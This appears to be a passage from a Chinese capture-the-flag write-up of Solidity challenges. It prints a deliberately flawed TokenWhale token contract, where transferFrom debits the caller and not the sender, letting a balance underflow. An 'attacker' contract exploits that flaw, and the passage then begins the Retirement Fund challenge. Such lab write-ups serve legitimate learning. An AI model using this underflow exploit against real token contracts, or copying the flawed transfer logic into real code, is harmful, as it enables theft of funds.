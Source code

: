 ```solidity
    function isComplete() public view returns (bool) {
        return balanceOf[player] >= 1000000;
    }
    event Transfer(address indexed from, address indexed to, uint256 value);
    function _transfer(address to, uint256 value) internal {
        balanceOf[msg.sender] -= value;
        balanceOf[to] += value;
        emit Transfer(msg.sender, to, value);
    }
    function transfer(address to, uint256 value) public {
        require(balanceOf[msg.sender] >= value);
        require(balanceOf[to] + value >= balanceOf[to]);

        _transfer(to, value);
    }
    event Approval(address indexed owner, address indexed spender, uint256 value);

    function approve(address spender, uint256 value) public {
        allowance[msg.sender][spender] = value;
        emit Approval(msg.sender, spender, value);
    }
    function transferFrom(address from, address to, uint256 value) public {
        require(balanceOf[from] >= value);
        require(balanceOf[to] + value >= balanceOf[to]);
        require(allowance[from][msg.sender] >= value);
        allowance[from][msg.sender] -= value;
        _transfer(to, value);
    }
}


contract attacker {
    TokenWhaleChallenge target;
    constructor(address des) public {
        target = TokenWhaleChallenge(des);
    }
    function transfer(){
        target.transfer(msg.sender,10000000);
    }
    function transferFrom(){
        target.transferFrom(msg.sender, 0x4609F29Ea40a78196dCbc7EA54dAB8a02518984a, 1);
    }
}
```

运行完相应函数之后, 返回 Check, 完成 ✅

---

###### Retirement Fund

这个题的要求是, 我们部署了一个退休基金的合约, 合约要求是 存款人 10 年之后才能提取这笔钱, 不然就只能取 90%, 我们要做的就是, 如何在没有惩罚的前提下把这笔钱提取出来.
